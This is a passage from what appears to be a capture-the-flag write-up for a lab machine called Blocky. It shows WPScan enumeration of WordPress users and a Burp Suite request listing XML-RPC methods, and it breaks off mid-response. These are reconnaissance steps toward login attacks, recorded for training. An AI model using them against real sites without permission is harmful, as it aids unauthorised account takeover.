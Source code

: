 ```
[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Oct 11 00:49:06 2024
```

Looking at the scan it does identified the user `notch`
###### `Failed Attempt of xmlrpc.php on WordPress`
![](Blocky_Web1.png)

Turning on the Burp Suite, I got the list of methods.
`HTTP POST REQUEST`
```
POST /xmlrpc.php HTTP/1.1
Host: blocky.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
\
`HTTP RESPONSE`
```
HTTP/1.1 200 OK
Date: Thu, 10 Oct 2024 07:49:27 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Vary: Accept-Encoding
Content-Length: 4272
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
```